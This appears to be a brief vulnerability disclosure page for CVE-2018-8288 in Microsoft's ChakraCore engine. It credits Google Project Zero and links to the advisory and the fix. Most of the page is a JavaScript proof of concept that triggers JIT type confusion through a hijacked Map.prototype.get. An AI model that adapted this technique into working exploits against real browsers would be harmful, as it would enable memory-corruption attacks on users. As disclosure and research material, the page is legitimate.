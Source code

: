 # CVE-2018-8288

- Fix: July 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr, obj) {
    arr[0] = 1.1;
    obj.x;
    arr[0] = 2.3023e-320;
}

let arr = [1.1];
for (let i = 0; i < 0x10000; i++) {
    opt(arr, {});
}

let get = Map.prototype.get;
Map.prototype.get = function (key) {
    Map.prototype.get = get;

    arr[0] = {};

    return this.get(key);
};

opt(arr, Intl);

alert(arr[0]);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8288)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1565)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/f9b1cded66314c52ab2de8e4e68efb854bd6b9aa)
